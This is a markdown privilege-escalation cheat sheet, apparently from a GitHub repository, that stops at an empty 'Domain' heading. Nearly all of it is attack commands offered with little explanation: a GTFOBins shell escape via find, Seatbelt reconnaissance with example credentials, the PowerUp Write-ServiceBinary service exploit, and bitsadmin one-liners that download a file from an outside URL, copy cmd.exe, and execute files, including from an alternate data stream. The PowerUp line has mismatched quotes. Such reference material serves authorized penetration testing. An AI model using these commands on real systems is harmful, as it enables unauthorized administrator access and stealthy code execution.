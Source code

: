 # Privilege Escalation
## Linux
### Identify Services Running as Root
```cmd
ps -aux | grep root
```

### Search for files with SETUID
```bash
find / -perm -4000 -ls 2>/dev/null
```

### GTFOBin - Find
```cmd
find . -exec /bin/sh \; -quit
```


## Windows
### Seatbelt
#### Simple Checks
##### AV Checks
```powershell
seatbelt.exe -q AntiVirus -outputfile="<filename.txt>"
```
##### Installed Products
```powershell
seatbelt.exe -q InstalledProducts  -outputfile="<filename.txt>"
```
##### TCP Connections
```powershell
seatbelt.exe -q TcpConnections  -outputfile="<filename.txt>"
```
##### System Group Checks
```powershell
seatbelt.exe -q group=system  -outputfile="<filename.txt>"
```
Interesting groups
    * system
    * user
    * remote -computername=host.target.com
    * chrome
    * slack
    * misc
    * all
##### Remote System Checks
```powershell
seatbelt.exe -q AppLocker computername=10.10.10.15 -user=hitbox\bgreen -password=Password1  -outputfile="<filename.txt>"
```

### PowerUP
#### Import Module
```powershell
Import-Module .\PowerUp.ps1
```
#### Run All Checks 
```powershell
Invoke-AllChecks
```
#### Exploit the Vulnerability
```powershell
Write-ServiceBinary -ServiceName 'Video Stream' -Path 'C:\Program Files\Video Stream\1337.exe"
```
##### Verify the Exploit worked
```powershell
net localgroup administrator
```

### LOLBAS
#### Find Unquoted Service Paths
```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "AUTO" | findstr /i /v c:\windows\\* | findstr /i /v """
```
#### bitsadmin
##### Download a file
```cmd
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternalls.com/autoruns.exe c:\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
##### Copy a File
```cmd
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /complete 1 & bitsadmin /reset
```
##### Execute a file
```cmd
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 C:\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /reset
```
##### Execute a file from Alternate Data Stream
```cmd
bitsadmin /create 1 bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 C:\playfolder\1.txt:cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /complete 1
```

## Domain
